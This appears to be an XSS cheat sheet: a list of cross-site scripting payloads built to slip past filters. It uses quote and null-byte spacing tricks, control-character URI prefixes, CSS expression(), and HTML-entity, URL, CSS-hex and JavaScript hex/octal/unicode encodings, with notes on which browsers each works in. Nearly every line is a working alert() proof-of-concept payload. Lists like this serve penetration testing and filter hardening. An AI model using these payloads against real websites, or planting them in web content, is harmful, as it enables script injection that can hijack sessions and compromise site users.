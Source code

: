 Use quotes instead of whitespace in some situations (Safari).
<img src='1''onerror='alert(0)'>
<img src='1'"onerror="alert(0)">

Use null-bytes instead of whitespaces in some situations (IE).
<img src='1'\x00onerror=alert(0)>

Just don't use spaces (IE, Firefox, Chrome, Safari).
<img src='1'onerror=alert(0)>

Prefix URI schemes.
Firefox (\x09, \x0a, \x0d, \x20)
Chrome (Any character \x01 to \x20)
<iframe src="\x01javascript:alert(0)"></iframe> 

No greater-than characters needed (IE, Firefox, Chrome, Safari).
<img src='1' onerror='alert(0)' <

Extra less-than characters (IE, Firefox, Chrome, Safari).
<<script>alert(0)</script>

Backslash character between expression and opening parenthesis (IE).
<style>body{background-color:expression\(alert(1))}</style>

JavaScript Escaping
<script>document.write('<a hr\ef=j\avas\cript\:a\lert(2)>blah</a>');</script>

Encoding Galore.

HTML Attribute Encoding
<img src="1" onerror="alert(1)" />
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:alert(1)"></iframe>
<iframe src="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;"></iframe>

URL Encoding
<iframe src="javascript:alert(1)"></iframe>
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>

CSS Hexadecimal Encoding (IE specific examples)
<div style="x:expression(alert(1))">Joker</div>
<div style="x:\65\78\70\72\65\73\73\69\6f\6e(alert(1))">Joker</div>
<div style="x:\000065\000078\000070\000072\000065\000073\000073\000069\00006f\00006e(alert(1))">Joker</div>
<div style="x:\65\78\70\72\65\73\73\69\6f\6e\028 alert \028 1 \029 \029">Joker</div>

JavaScript (hexadecimal, octal, and unicode)
<script>document.write('<img src=1 onerror=alert(1)>');</script>
<script>document.write('\x3C\x69\x6D\x67\x20\x73\x72\x63\x3D\x31\x20\x6F\x6E\x65\x72\x72\x6F\x72\x3D\x61\x6C\x65\x72\x74\x28\x31\x29\x3E');</script>
<script>document.write('\074\151\155\147\040\163\162\143\075\061\040\157\156\145\162\162\157\162\075\141\154\145\162\164\050\061\051\076');</script>
<script>document.write('\u003C\u0069\u006D\u0067\u0020\u0073\u0072\u0063\u003D\u0031\u0020\u006F\u006E\u0065\u0072\u0072\u006F\u0072\u003D\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029\u003E');</script>
